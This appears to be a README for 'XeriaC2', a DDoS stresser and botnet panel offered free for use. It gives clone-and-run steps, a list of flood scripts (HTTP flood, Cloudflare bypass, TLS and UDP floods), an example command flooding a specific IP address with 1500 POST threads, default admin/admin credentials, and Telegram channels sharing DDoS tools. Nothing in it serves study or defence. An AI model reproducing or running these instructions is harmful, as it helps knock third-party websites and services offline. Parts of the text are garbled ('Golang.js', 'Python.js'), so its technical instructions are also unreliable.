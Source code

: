 # File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip
## Tutorial Setup XeriaC2
1. Open Github XeriaC2
2. Open File Methods
3. Click tutorial.txt
4. Open Terminal Or Cloud Shell
5. git clone https://github.com/levanderdev/XeriaC2
6. cd XeriaC2
7. And You See File Methods
8. Node.js Methods Run : node name.js
9. Golang.js Run : go run name.go
10. Python.js Run : python name.py
11. Thankss
12. Or python XeriaC2

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

## Wanna Update Method?</br>
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

and scroll you can get the method maybe node HTTP-FLOOD.js 

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

node tlsv2.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
